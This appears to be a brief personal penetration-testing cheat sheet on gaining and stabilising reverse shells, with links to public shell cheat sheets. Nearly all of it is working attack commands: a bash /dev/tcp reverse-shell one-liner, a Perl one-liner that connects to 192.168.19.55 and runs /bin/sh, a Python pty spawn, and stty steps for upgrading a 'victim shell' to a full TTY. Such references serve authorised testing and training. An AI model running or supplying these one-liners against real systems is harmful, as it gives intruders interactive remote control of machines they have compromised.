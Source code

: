 # TTY shell cheatsheat
* https://netsec.ws/?p=337 TTY shell cheatsheat

# reverse shell cheatsheat (1 liners and shit)
* http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 

# Quick Bash Script for things like RCE,Command Injection 
`bash -i >& /dev/tcp/\<ip>/\<port> 0>&1`

# Some other shell shit
https://bananamafia.dev/post/shell-upgrade/

# Python upgrade shell
* `python -c 'import pty; pty.spawn("/bin/sh")'`

# Perl One Liner (just in case)
* `perl -e 'use Socket;$i="192.168.19.55";$p=22;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`


# Other important commands

once you upgrade to python upgraded shell:

* ctrl+z
* stty raw -echo
* fg
* enter (x2) 
	* shell now has tab-completion
* echo $TERM
* in victim shell: export TERM=\<outputfromlastcommand\>
	* Shell now can use clear
* export SHELL=bash
	* Shell now has history
